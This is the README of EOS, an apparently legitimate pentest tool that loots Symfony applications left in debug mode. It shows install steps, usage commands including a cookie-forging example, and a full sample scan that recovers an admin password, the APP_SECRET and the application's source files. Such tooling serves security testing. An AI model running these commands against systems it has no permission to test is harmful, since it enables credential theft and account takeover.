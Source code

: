 # Enemies Of Symfony (EOS)

`EOS` loots information from a Symfony target in debug mode:

| Section       | Description                                                                 |
| ------------- | --------------------------------------------------------------------------- |
| General       | Get general information about the target.                                   |
| Phpinfo       | Extract Symfony environment variables from the exposed phpinfo().           |
| Routes        | Get the list of registered routes.                                          |
| Request logs  | Look for credentials in POST request logs.                                  |
| Project files | Retrieve project files (configuration, database, etc.) based on a wordlist. |
| Sources       | Extract the application source code.                                        |
| Cookies       | Craft Remember Me cookies.                                                  |

More info at https://www.synacktiv.com/posts/pentest/looting-symfony-with-eos.html.

## Installation

### Standard

```bash
$ git clone https://github.com/Synacktiv/eos
$ python3 -m pip install --user ./eos
```

### Docker

```bash
$ git clone https://github.com/Synacktiv/eos
$ cd eos
$ docker build . -f eos.Dockerfile -t eos
```

## Usage

```bash
usage: eos [-h] [-V] [-v] [--no-colors] {scan,sources,get,creds,cookies} ...

  ███████╗ ██████╗ ███████╗
  ██╔════╝██╔═══██╗██╔════╝
  █████╗  ██║   ██║███████╗
  ██╔══╝  ██║   ██║╚════██║
  ███████╗╚██████╔╝███████║  Enemies Of Symfony
  ╚══════╝ ╚═════╝ ╚══════╝  v1.0.0

positional arguments:
  {scan,sources,get,creds,cookies}
    scan                 perform a full scan
    sources              download application source code
    get                  download a file from the application
    creds                extract credentials from request logs
    cookies              craft remember me cookies with a great lifetime

optional arguments:
  -h, --help             show this help message and exit
  -V, --version          display version info
  -v, --verbose          increase verbosity
  --no-colors            disable colors in output

examples:
  eos scan http://localhost
  eos scan -v -t 4 http://localhost
  eos scan --headers 'Cookie: foo=bar; john=doe' 'User-Agent: EOS' -- http://localhost
  eos get http://localhost config/services.yaml
  eos cookies -u jane_admin -H '$2y$13$IMalnQpo7xfZD5FJGbEadOcqyj2mi/NQbQiI8v2wBXfjZ4nwshJlG' -s 67d829bf61dc5f87a73fd814e2c9f629
```

```bash
$ eos scan http://localhost --output results
[+] Starting scan on http://localhost
[+] 2020-04-23 14:21:26.463352 is a great day

[+] Checks
[!] Target found in debug mode

[+] Info
[!]   Symfony 5.0.1
[!]   PHP 7.3.11-1~deb10u1
[!]   Environment: dev

[+] Request logs
[+] Found 9 POST requests
[!] Found the following credentials with a valid session:
[!]   jane_admin: kitten [ROLE_ADMIN]

[+] Phpinfo
[+] Available at http://localhost/_profiler/phpinfo
[+] Found 101 PHP variables
[!] Found the following Symfony variables:
[!]   APP_ENV: dev
[!]   APP_SECRET: 67d829bf61dc5f87a73fd814e2c9f629
[!]   DATABASE_URL: sqlite:///%kernel.project_dir%/data/database.sqlite
[!]   MAILER_URL: null://localhost

[+] Project files
[+] Found: composer.lock, run 'symfony security:check' or submit it at https://security.symfony.com
[!] Found the following files:
[!]   composer.lock
[!]   composer.json
[!]   config/bundles.php
[!]   config/bootstrap.php
[!]   config/packages/assets.yaml
[!]   config/packages/cache.yaml
[!]   config/packages/dev/debug.yaml
[!]   config/packages/dev/monolog.yaml
[!]   config/packages/dev/routing.yaml
[!]   config/packages/dev/swiftmailer.yaml
[!]   config/packages/dev/web_profiler.yaml
[!]   config/packages/doctrine_migrations.yaml
[!]   config/packages/doctrine.yaml
[!]   config/packages/framework.yaml
[!]   config/packages/html_sanitizer.yaml
[!]   config/packages/prod/doctrine.yaml
[!]   config/packages/prod/monolog.yaml
[!]   config/packages/prod/routing.yaml
[!]   config/packages/prod/webpack_encore.yaml
[!]   config/packages/routing.yaml
[!]   config/packages/security.yaml
[!]   config/packages/sensio_framework_extra.yaml
[!]   config/packages/swiftmailer.yaml
[!]   config/packages/test/dama_doctrine_test_bundle.yaml
[!]   config/packages/test/framework.yaml
[!]   config/packages/test/monolog.yaml
[!]   config/packages/test/routing.yaml
[!]   config/packages/test/security.yaml
[!]   config/packages/test/swiftmailer.yaml
[!]   config/packages/test/twig.yaml
[!]   config/packages/test/validator.yaml
[!]   config/packages/test/webpack_encore.yaml
[!]   config/packages/test/web_profiler.yaml
[!]   config/packages/translation.yaml
[!]   config/packages/twig.yaml
[!]   config/packages/validator.yaml
[!]   config/packages/webpack_encore.yaml
[!]   config/routes/annotations.yaml
[!]   config/routes/dev/framework.yaml
[!]   config/routes/dev/web_profiler.yaml
[!]   config/routes.yaml
[!]   config/services.yaml
[!]   data/database.sqlite
[!]   data/database_test.sqlite
[!]   package.json
[!]   public/index.php
[!]   public/robots.txt
[!]   README.md
[!]   src/Kernel.php
[!]   symfony.lock
[!]   var/cache/dev/url_generating_routes.php
[!]   var/cache/dev/url_matching_routes.php
[!]   var/log/dev.log

[+] Routes
[!] Found the following routes:
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/new
[!]   /{_locale}/admin/post/{id}
[!]   /{_locale}/admin/post/{id}/edit
[!]   /{_locale}/admin/post/{id}/delete
[!]   /{_locale}/blog/
[!]   /{_locale}/blog/rss.xml
[!]   /{_locale}/blog/page/{page}
[!]   /{_locale}/blog/posts/{slug}
[!]   /{_locale}/blog/comment/{postSlug}/new
[!]   /{_locale}/blog/search
[!]   /{_locale}/login
[!]   /{_locale}/logout
[!]   /{_locale}/profile/edit
[!]   /{_locale}/profile/change-password
[!]   /{_locale}

[+] Project sources
[!] Found the following source files:
[!]   src/Command/AddUserCommand.php
[!]   src/Command/DeleteUserCommand.php
[!]   src/Command/ListUsersCommand.php
[!]   src/Controller/Admin/BlogController.php
[!]   src/Controller/BlogController.php
[!]   src/Controller/SecurityController.php
[!]   src/Controller/UserController.php
[!]   src/DataFixtures/AppFixtures.php
[!]   src/Entity/Comment.php
[!]   src/Entity/Post.php
[!]   src/Entity/Tag.php
[!]   src/Entity/User.php
[!]   src/EventSubscriber/CheckRequirementsSubscriber.php
[!]   src/EventSubscriber/CommentNotificationSubscriber.php
[!]   src/EventSubscriber/ControllerSubscriber.php
[!]   src/EventSubscriber/RedirectToPreferredLocaleSubscriber.php
[!]   src/Events/CommentCreatedEvent.php
[!]   src/Form/CommentType.php
[!]   src/Form/DataTransformer/TagArrayToStringTransformer.php
[!]   src/Form/PostType.php
[!]   src/Form/Type/ChangePasswordType.php
[!]   src/Form/Type/DateTimePickerType.php
[!]   src/Form/Type/TagsInputType.php
[!]   src/Form/UserType.php
[!]   src/Kernel.php
[!]   src/Pagination/Paginator.php
[!]   src/Repository/PostRepository.php
[!]   src/Repository/TagRepository.php
[!]   src/Repository/UserRepository.php
[!]   src/Security/PostVoter.php
[!]   src/Twig/AppExtension.php
[!]   src/Twig/SourceCodeExtension.php
[!]   src/Utils/Markdown.php
[!]   src/Utils/MomentFormatConverter.php
[!]   src/Utils/Slugger.php
[!]   src/Utils/Validator.php

[+] Saving files to results
[+] Saved 88 files

[+] Generated tokens: 5894a5 f68efa
[+] Scan completed in 0:00:13
```

### Example usage with Docker

```bash
$ docker run --rm -v /tmp/eos:/tmp/res eos eos scan http://localhost/ --output /tmp/res
```
